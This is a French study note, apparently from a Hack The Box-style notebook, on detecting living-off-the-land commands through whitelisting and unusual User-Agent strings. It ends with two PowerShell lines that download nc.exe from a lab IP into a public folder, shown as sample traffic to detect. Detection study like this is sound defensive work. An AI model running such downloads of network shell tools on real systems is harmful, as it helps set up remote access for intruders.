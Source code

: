 # Detection (A revoir)

## <mark style="color:red;">Détection des Commandes Malveillantes (LOTL)</mark>

Les attaquants utilisent des commandes légitimes pour faire des actions malveillantes, ce qui rend la détection plus difficile. Voici comment cela fonctionne et comment on peut les repérer.

### <mark style="color:blue;">**1. Obfuscation des Commandes**</mark>

Les attaquants peuvent modifier la présentation d'une commande pour qu'elle ne soit pas facilement repérable, par exemple en changeant la casse (`CMD.exe` au lieu de `cmd.exe`). Cela rend les listes noires (blacklists) inefficaces, car elles ne repèrent que les commandes dans une forme précise.

### <mark style="color:blue;">**2. Liste Blanche (Whitelisting)**</mark>

Une méthode plus efficace pour contrer cela est de créer une **liste blanche**. Cette liste inclut uniquement les commandes autorisées. Dès qu'une commande non autorisée est utilisée, elle est bloquée. C'est plus long à configurer, mais plus sûr.

### <mark style="color:blue;">**3. User-Agent (UA)**</mark>

Quand un programme ou un navigateur fait une requête sur Internet, il envoie un **User-Agent** qui dit au serveur quel logiciel fait la demande. Par exemple, quand tu utilises Chrome ou Firefox, ils envoient leur User-Agent spécifique pour se présenter.

Les attaquants peuvent utiliser des outils comme PowerShell ou cURL pour télécharger des fichiers malveillants, et ces outils envoient aussi un User-Agent. Si un User-Agent inhabituel apparaît dans un réseau (par exemple, un programme de transfert non standard), il pourrait s'agir d'une activité malveillante.

### <mark style="color:blue;">**4. Détection Basée sur les UA**</mark>

Les entreprises peuvent surveiller ces **User-Agents**. En créant une liste des User-Agents légitimes (ceux utilisés par des logiciels standards comme Windows Update), elles peuvent repérer les UA suspects qui pourraient indiquer un téléchargement ou une attaque malveillante.

***

<mark style="color:orange;">**Invoke-WebRequest - Client**</mark>

{% code fullWidth="true" %}
```powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
```
{% endcode %}

<mark style="color:orange;">**Invoke-WebRequest - Server**</mark>
